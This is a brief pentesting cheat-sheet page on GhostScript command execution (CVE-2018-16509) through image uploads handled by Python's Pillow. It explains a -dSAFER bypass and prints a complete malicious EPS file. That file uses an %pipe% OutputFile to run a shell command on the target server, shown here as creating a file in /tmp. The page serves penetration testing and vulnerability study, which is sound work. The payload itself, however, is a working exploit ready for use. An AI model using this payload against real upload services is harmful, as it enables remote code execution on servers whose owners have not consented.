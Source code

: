 ```yaml
---
title: GhostScript Pentesting
description: GhostScriipt is an interpreter for the PostScript language and PDF files. It might be vulnerable to code execution.
tags:
    - Web
refs:
    - https://seclists.org/oss-sec/2018/q3/142
date: 2023-08-10
draft: false
---
```


## Arbitrary Command Execution (CVE-2018-16509) Before v9.24

Reference: [https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)

If target website uses the functionality which allows user to upload image files associated Python's **Pillow (PIL)**, we can execute remote command over **GhostScript** vulnerability (**`-dSAFER`** bypass using **`OutputFile`**).  
Create an image file in which contents as below, then upload it. Command will be executed in the target server.

```txt
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/hello.txt) currentdevice putdeviceprops
```
